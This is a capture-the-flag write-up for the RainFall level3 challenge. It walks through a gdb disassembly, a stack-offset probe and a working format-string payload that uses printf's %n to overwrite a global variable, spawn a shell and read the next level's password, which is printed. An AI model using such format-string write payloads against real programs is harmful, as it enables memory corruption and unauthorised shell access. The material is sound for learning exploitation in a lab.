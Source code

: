 Here, there is no buffer overflow, because `fgets` is protected against that. 
But, we can see in the source code that if the variable `m` is set to 0x40 (or 64), then the program will spawn us a shell.
With `gdb`,

```assembly
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.

```

We can see that the variable `m` correspond to the address `0x804988c`. There is an exploit regarding `printf` that can make anyone write any value in a given address.
To do so, we first need to find how many bytes we need to skip to gather the given input, to be clear :
>level3@RainFall:~$ cat <(python -c 'print "AAAA " + "%p " * 10') - | ./level3 
>AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 

We can see here that the fourth `%p` send back to our own string `AAAA`. So, because of the `%n` option of printf, we can put 60 in the targeted address :

> level3@RainFall:~$ cat <(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"') - | ./level3 
> �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
> Wait what?!
> cat /home/user/level4/.pass
> b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

```bash
su level4
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

